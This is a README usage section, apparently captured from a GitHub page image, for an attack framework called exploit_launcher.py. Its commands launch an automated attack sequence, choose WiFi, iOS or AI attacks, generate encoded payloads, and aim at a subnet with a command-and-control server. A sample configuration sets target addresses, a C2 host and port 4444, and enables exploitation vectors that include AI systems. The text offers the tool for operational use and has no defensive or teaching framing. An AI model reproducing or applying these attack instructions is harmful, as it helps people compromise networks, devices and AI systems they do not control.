 ## Usage

### Basic Usage

```bash
# Run full automated attack sequence
python3 exploit_launcher.py

# Run in interactive mode
python3 exploit_launcher.py --interactive

# Run specific attack type
python3 exploit_launcher.py --attack-type wifi
python3 exploit_launcher.py --attack-type ios
python3 exploit_launcher.py --attack-type ai

# Generate payloads only
python3 exploit_launcher.py --generate-payloads

# Custom target configuration
python3 exploit_launcher.py --target 192.168.1.0/24 --c2-server 192.168.1.254
```

### Advanced Configuration

Create a custom configuration file `exploit_config.json`:

```json
{
  "target_network": "192.168.1.0/24",
  "c2_server": "192.168.1.254",
  "target_ip": "192.168.1.100",
  "target_port": 4444,
  "attack_vectors": {
    "ai_exploitation": true,
    "wifi_attacks": true,
    "ios_exploits": true,
    "system_exploits": true,
    "network_attacks": true
  },
  "payload_options": {
    "generate_payloads": true,
    "encode_payloads": true,
    "custom_payloads": false
  },
  "timing": {
    "recon_delay": 2,
    "exploit_delay": 3,
    "post_exploit_delay": 2
  }
}
```

